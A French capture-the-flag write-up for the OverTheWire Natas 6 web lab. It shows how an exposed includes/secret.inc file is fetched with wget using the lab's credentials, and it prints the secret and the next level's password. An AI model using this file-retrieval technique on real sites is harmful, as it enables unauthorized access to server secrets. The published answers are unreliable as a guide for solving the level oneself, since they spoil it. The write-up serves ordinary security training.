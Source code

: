 ## Over-The-Wire -writeup-
### Natas6 (http://natas6.natas.labs.overthewire.org/)

---
#### Etape 1

Un code est demandé, et on a accès à la source de la page index.html et de son box input.  
Dans le code HTML **on trouve une section PHP**:

```php
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

Le fichiers "secret.inc" est inclus dans la page HTML, et ensuite PHP compare ce que l'utilisateur entre comme code ($_POST['secret']) et le code secret du serveur (variable $secret, dont la valeur se trouve dans secret.inc)  

On va donc récupérer le fichier secret.inc qui se trouve dans le dossier /includes/ du site.

Pour cela j'utilise **wget** :

Structure de la commande pour récupérer un fichier: `wget http://target-address/file`  
Structure de la commande pour se connecter avec des identifiants: `wget --user [username] --password [password]`

**Fusionnons les deux**:  
`wget -user [username] --password [password] http://target-address/file`

**Enfin, dans notre cas, la commande exacte est**:  
`wget --user natas6 --password aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc`

---
#### Etape 2

Une fois le fichier secret.inc récupéré, cat-ons le:
```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```
Le code a rentrer dans le box d'input est donc **FOEIUWGHFEEUHOFUOIU**, qui se comparera à lui-même, sera donc égal à lui-même et satisfiera la condition pour dévoiler la balise "*censored*".

Une fois le code rentré et le bouton "Sumbit Query" cliqué, un texte apparaît:
`Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`

---
Mot de passe: **7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**
